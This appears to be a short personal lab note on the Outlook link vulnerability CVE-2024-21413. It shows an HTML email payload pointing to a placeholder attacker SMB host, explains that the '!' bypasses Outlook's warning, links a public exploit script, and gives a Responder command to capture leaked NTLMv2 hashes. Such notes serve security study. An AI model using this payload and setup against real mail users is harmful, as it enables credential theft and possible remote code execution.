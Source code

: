 
```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```
in html message body of the email
the ! stops outlook asking/warning before opening the link

- netNTLMv2 hash is sent to the attacker machine
- RCE through smb file:// using Component Object Model (COM)

https://github.com/CMNatic/CVE-2024-21413/blob/main/exploit.py


Listen with responder (or use an Impacket server)
`sudo responder -I tun0`

When the link in the email is clicked, we get several attempts to access the link, including the ip, username and hash.
![[Images/Pasted image 20250106103921.png]]

